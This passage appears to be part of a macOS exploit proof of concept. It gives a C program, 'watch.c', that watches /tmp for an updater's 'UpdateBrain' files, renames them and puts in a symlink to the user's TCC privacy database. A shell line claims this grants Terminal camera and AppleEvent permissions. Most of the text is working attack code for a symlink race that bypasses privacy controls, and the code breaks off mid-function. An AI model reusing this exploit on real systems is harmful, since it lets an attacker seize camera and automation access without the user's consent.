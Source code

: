 ```shell
echo "Terminal has Camera and AppleEvent TCC now."
```

**pre-compiled-malicious-app/watch.c:**

```shell
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <dirent.h>

int main() {
    printf("==1");
    system("rm -rf /tmp/UpdateBrain*; rm -rf /tmp/diu;");

    const char *directory = "/tmp"; 
    const char *prefix = "UpdateBrain"; 
    const char *newFileName = "/tmp/diu"; 

    char symlinkTarget[1024]; 

    const char *homeDir = getenv("HOME");

    if (homeDir != NULL) {
        snprintf(symlinkTarget, sizeof(symlinkTarget), "%s/Library/Application Support/com.apple.TCC", homeDir); 
    } else {
        printf("Error. No HOME");
        return 0;
    }

    while(1){
        DIR *dir;
        
        if ((dir = opendir(directory)) == NULL) {
            perror("opendir() error");
            return 1;
        }

        char oldFilePath[1024];
        
        struct dirent *entry;
        while ((entry = readdir(dir)) != NULL) {
            if (strncmp(entry->d_name, prefix, strlen(prefix)) == 0) {
                snprintf(oldFilePath, sizeof(oldFilePath), "%s/%s", directory, entry->d_name);
                printf("%s", oldFilePath);
                if (rename(oldFilePath, newFileName) == 0) {
                    if (symlink(symlinkTarget, oldFilePath) == 0) {
                        printf("Symlink created successfully: %s -> %s\n", oldFilePath, symlinkTarget);
                    } else {
                        perror("symlink() error");
                    }
                    return 0;
                } else {
                    perror("rename() error");
                }
            }
        }

        closedir(dir);
    }

```